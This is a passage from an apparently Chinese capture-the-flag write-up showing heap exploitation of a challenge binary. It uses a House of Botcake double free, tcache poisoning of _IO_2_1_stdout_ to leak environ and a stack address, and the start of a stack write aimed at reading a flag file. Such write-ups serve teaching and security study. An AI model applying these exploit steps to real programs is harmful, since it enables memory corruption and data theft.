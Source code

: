 合并一下 chunk  
合并前：  
[![](assets/1701612363-c80f6778b19ab228b0bde7d04f23428c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213029-c6db6ef4-19a5-1.png)  
合并后：  
[![](assets/1701612363-4126b48ab0ce161d67329a58727ab715.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213039-ccc26796-19a5-1.png)

```plain
add(0x80,'aaaa') #0
```

然后留出一个空位打 House of Botcake

[![](assets/1701612363-c42b8920fd7446ca07e32eae28cc148a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213054-d60ccf8a-19a5-1.png)

```plain
delete(8)
```

这时候两个堆块已经重叠了

[![](assets/1701612363-6ef3121d6a00835b1b41ea957dab6b31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213108-de764c00-19a5-1.png)

```plain
add(0x70,'aaaa') #1
add(0x90,p64(0)+p64(0x91)+p64(stdout)) #2
```

然后修改 UAF 留下的指针

[![](assets/1701612363-ce0b576637f40fef0d986a11857c8e55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213121-e6096b78-19a5-1.png)

```plain
add(0x80,'aaaa') #3
add(0x80,p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8)) #4
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x128
leak('stack_addr ',stack_addr)
```

申请一次，后再申请一次来修改 \_IO\_2\_1_stdout_ 的结构体，这里是伪造了一下 \_flags，并且覆盖\_IO\_read\_ptr、\_IO\_read\_end、\_IO\_read\_base 这三个指针为 0，覆盖\_IO\_write\_base 指针为 environ，覆盖 \_IO\_write\_ptr 指针为 比 environ 大的数 (environ+8)，这时候就会泄露出 \_IO\_write\_base 指针与\_IO\_write\_ptr 指针之间的所有数据 (也就是 environ 的地址)\[这里的知识点，我在 Io leak 那篇文章中详细展开过\]，这里 -0x128 计算的是程序返回地址 -0x8，-0x8 是为了写 './flag\\x00\\x00'

```plain
delete(3)
delete(2)
```

然后把重叠的堆块再释放 (本来是 chunk1、2 重叠，这个是伪造的 2、3 重叠)

[![](assets/1701612363-10ab7370198d34cdbd7109377c99ae56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213142-f295451a-19a5-1.png)

```plain
add(0x90,p64(0)+p64(0x91)+p64(stack_addr))
```
